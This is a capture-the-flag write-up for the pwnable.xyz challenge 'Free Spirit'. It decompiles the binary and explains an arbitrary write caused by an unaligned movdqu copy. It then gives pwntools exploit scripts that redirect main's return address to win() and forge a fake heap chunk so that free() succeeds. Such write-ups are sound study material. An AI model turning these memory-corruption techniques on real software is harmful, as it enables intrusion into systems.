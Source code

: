 ```yaml
---
title: pwnable.xyz Free Spirit
date: 2025-2-26
categories: [pwnableXYZ, writeup]
---
```


# Problem

> Free is misbehaving.

- `challenge`: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f9c9a081578630d7b736a704a82a275c363b22d9, not stripped

# Recon

The `main()` function in pseudo c, `1` can read 32 bytes on to the heap buffer, `2` can leak stack address, and `3` can move the value in heap buffer to somewhere.

{% highlight c linenos %}
// main
void* chunk_addr = malloc(0x40);
while (true) {
    __printf_chk(1, "> ");
    char* buf;
    __builtin_memset(&buf, 0, 0x30);
    read(0, &buf, 0x30);
    int32_t input = atoi(&buf);
    if (input == 1)
        syscall(0, 0, chunk_addr, 0x20); // read(0, chunk_addr, 0x20);
    else {
        if (input == 2) {
            __printf_chk(1, "%p\n", &chunk_addr);
            continue;
        } else if (input == 3) {
            if (limit > 1) continue;
            else {
                int64_t var_60;
                var_60 = *(uint128_t*)chunk_addr;
                continue;
            }
        }
        if (!input) {
            // check stack 
            free(chunk_addr);
        }
        puts("Invalid");
    }
}
{% endhighlight%}

# Exploit

## Arbitrary Write

Take a closer look at line 19 in assembly, the instruction [`movdqu`](https://c9x.me/x86/html/file_module_x86_id_184.html) will move unaligned double quadword, which is 128 bits (16 bytes), from heap buffer to `rsp+0x8`. Notice that `chunk_addr` (`rsp+0x10`) will also be overwrite by 0x0040088d, since we control the heap buffer data through option `1`, this create a arbitrary write. The following payload is able to write to any address repeatedly.

```
00400884  488b442410         mov     rax, qword [rsp+0x10 {chunk_addr}]
00400889  f30f6f00           movdqu  xmm0, xmmword [rax]
0040088d  f30f7f442408       movdqu  xmmword [rsp+0x8 {var_60}], xmm0
```

```
1
<4 bytes to write to chunk_addr><next address to write>
3
```

## Ret2win

Since we can control any address, we can set the return address of `main()` to `win()` (0x400a3e) with the script

```python
# pwn template --host svc.pwnable.xyz --port 30005 ./challenge
io = start()

io.sendafter(b"> ", b"2")
chunk_addr = int(io.recvline().strip().decode(), 16)
log.info(f"{chunk_addr = :x}")
ret_addr = chunk_addr + 0x58

io.sendafter(b"> ", b"1")
io.send(b"a" * 8 + p64(ret_addr))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x400a3e))
```

## Free

However the `free()` on line 25 will cause error, hence won't return from `main()` and no flag for us. In order to `free()` successfully, we need to create a fake chunk, the address of the fake chunk doesn't necessary needs to be in the heap, as long as `address & 8 == 0` will be fine, I choose to use an empty memory `0x601100` to create the fake chunk with following structure

|          |  +0x0  |     +0x8    |
|:--------:|:------:|:-----------:|
| 0x6010f0 |  empty | size = 0x50 |
| 0x601100 |  empty |    empty    |

Combine with the previous scripts

```python
io = start()

io.sendafter(b"> ", b"2")
chunk_addr = int(io.recvline().strip().decode(), 16)
log.info(f"{chunk_addr = :x}")
ret_addr = chunk_addr + 0x58
log.info(f"{ret_addr = :x}")
fake_chunk_addr = 0x601100
log.info(f"{fake_chunk_addr = :x}")
fake_chunk_size = fake_chunk_addr - 0x8
log.info(f"{fake_chunk_size = :x}")

io.sendafter(b"> ", b"1")
io.send(b"a" * 8 + p64(ret_addr))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x400a3e) + p64(fake_chunk_size))
io.sendafter(b"> ", b"3")
io.sendafter(b"> ", b"1")
io.send(p64(0x50) + p64(fake_chunk_addr))
io.sendafter(b"> ", b"3")

io.sendafter(b"> ", b"0")

io.interactive()
```